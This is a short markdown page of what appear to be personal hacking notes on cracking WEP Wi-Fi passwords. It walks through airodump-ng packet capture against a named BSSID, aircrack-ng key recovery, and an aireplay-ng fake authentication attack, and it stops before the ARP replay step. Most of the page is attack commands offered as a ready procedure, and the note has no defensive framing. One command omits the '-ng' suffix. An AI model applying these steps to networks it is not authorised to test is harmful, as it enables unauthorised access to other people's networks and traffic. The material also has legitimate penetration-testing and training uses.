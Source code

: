 ```yaml
---
description: breaking wep, wpa, wpa2 ectc.
---
```


# Wifi Cracking

### wep hacking

> Note: this methods works on a busy network where the  "#Data" column value increases at a very fast rate.

1. we have to capture a large number of packets for this to work, using the airodump-ng utility.

```bash
airodump-ng --bssid 98:A9:42:27:A2:CA --channel 2 --write wep_capture wlan0mon
```

2. we then use the aircrack-ng utility to crack the password using the captured .cap file.

```bash
aircrack wep_capture.cap
```

3. key found in the `KEY FOUND! [22:22:22:22:22]` remove the columns, then use the password to connect to the wep network.

> In a network thats not busy: you can force the AP to generate new packets new IVs.





**Solution:** Associate with the AP before launching the attack.

1. run a scan with airodump-ng utility.

```
airodump-ng --bssid 98:A9:42:27:A2:CA --channel 2 --write arp_replay wlan0mon
```

2. run the aireplay-ng utility to establish "an Association" with the target network. `--fakeauth 0` denotes running a fake authentication attack once, `-c` mac addr of the target AP, `-h` mac addr of our wlan0mon adapter and the name of the adapter.

```
aireplay-ng --fakeauth 0 -a 98:A9:42:27:A2:CA -h 11:22:33:44:55:66 wlan0mon
```

3. forcing the AP to generate new IVs (ARP Request Replay).

